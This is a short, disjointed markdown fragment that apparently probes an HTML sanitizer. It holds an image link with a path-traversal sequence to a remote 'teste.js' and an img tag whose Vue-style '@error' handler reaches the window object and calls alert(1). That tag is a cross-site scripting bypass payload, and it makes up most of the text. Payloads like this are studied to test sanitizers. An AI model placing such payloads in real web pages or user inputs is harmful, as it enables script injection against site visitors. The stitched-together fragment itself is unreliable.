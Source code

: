 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10)

<img src='' @error=e=$event.composedPath().pop().alert(1)>
